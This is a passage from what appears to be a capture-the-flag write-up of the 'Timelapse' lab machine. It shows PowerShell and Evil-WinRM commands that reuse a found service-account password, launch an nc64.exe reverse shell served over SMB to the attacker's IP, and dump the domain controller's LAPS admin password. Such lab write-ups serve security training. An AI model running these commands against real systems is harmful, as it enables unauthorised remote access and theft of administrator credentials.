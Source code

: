 Replicate to get a new reverse shell.
```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
timelapse\svc_deploy

➜  /opt impacket-smbserver share . -smb2support

*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {//10.10.14.2/share/nc64.exe 10.10.14.2 4488 -e powershell}

➜  timelapse rlwrap nc -lvnp 4488                                                                                    
listening on [any] 4488 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.152] 52197
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```

-----------

### Step 3
Enumerating the directories we find `laps.ps1`
```powershell
PS C:\Users\svc_deploy\Desktop> type laps.ps1
$Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$computers | Export-Csv -path c:\users\danny\desktop\"LAPS-$((Get-Date).ToString("MM-dd-yyyy")).csv" -NoTypeInformation
```

Run the script:
```powershell
PS C:\Users\svc_deploy\Desktop> ./laps.ps1

Name  DnsHostName        ms-Mcs-AdmPwd            ms-Mcs-AdmPwdExpirationTime
----  -----------        -------------            ---------------------------
WEB01                                                                        
DEV01                                                                        
DB01                                                                         
DC01  dc01.timelapse.htb 6+e(2G,L;TK5+eGy%gJ8s.2X 132936070633235489
```
